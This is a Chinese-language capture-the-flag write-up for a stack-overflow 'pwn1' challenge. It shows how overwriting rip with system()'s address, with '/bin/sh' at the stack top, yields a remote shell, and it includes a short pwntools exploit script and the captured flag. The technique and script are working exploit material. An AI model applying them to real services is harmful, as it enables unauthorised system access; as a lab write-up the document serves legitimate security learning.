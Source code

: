 pwn1 300 points
================

题意
-------------

Do you know stack overflow?

nc host port

Attachment: stackoverflow_withleak

解题步骤
---------------

对二进制进行逆向，找到典型的缓冲区溢出问题：

![vul](./2018-09-28-22-57-45.png)

构造一个 0x2000 长度的字符串之后，即可覆写 `rbp` 和 `rip` 。一开始尝试调转到 `doit` 函数：

![doit](2018-09-28-23-03-35.png)

然后发现并不工作。最后发现这个函数只是用来坑人的。仔细观察上面那张图，`call` 之后有一个 `mov rdi, rsp` 语句，此时 `rsp` 正好是 `scanf` 读入的字符串内容，于是我们掌握了函数调用的第一个参数。于是，如果我们把 `rip` 覆写为 `system` 的地址，我们就可以开一个 shell 了。

脚本（见 [pwn1.py](pwn1.py) ）如下：

```
from pwn import *
r = remote(host, ip)
r.send('/bin/sh\0'+'A'*(8192-8))
r.send('A'*8)
r.send(p32(0x004005a0))
r.send('\n')
r.interactive()
```

其中 `0x004005a0` 为 `system()` 的地址。

进来系统后，找到 `/home/ctf_puck/flag` 文件中的 `flag`:

```
THUCTF{HahA_you_got_it_And_90od_Job!}
```